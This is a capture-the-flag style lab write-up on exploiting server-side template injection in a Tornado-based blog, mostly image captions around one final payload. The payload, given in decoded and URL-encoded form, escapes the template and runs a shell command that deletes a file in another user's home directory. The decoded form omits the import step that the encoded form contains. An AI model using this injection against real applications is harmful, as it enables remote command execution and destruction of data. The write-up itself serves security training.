







# Basic server-side template injection (code context)
# Objective
This lab is vulnerable to server-side template injection due to the way it unsafely uses a `Tornado` template. To solve the lab, review the `Tornado` documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Logged in user has a possibility to change his prefered name to: name, first name, nickname. The choosen option is displayed when user makes commets on the blog.
||
|:--:| 
| *Preferred name setting* |
||
| *Preferred name set to: name* |
||
| *Preferred name set to: first name* |
||
| *Preferred name set to: nickname* |

The description of this lab informs that there is a `Tornado` template in use. The `blog-post-author-display` parameter is vulnerable to Server-side template injection.
||
|:--:| 
| *SSTI test* |
||
| *Expression was executed by template engine* |

## Exploitation

||
|:--:| 
| `pwd` command execution |
||
| *Result of the above SSTI* |

Final payload:
```
Decoded: user.name}}{{os.system('rm /home/carlos/morale.txt')
Encoded: user.name%7d%7d%7b%25%20import%20os%20%25%7d%7b%7bos.system('rm%20%2fhome%2fcarlos%2fmorale.txt')
```
||
|:--:| 
| `rm /home/carlos/morale.txt` - Delete file morale.txt |

Visit to the site blog with this user comment will triger payload and delete the file `morale.txt`.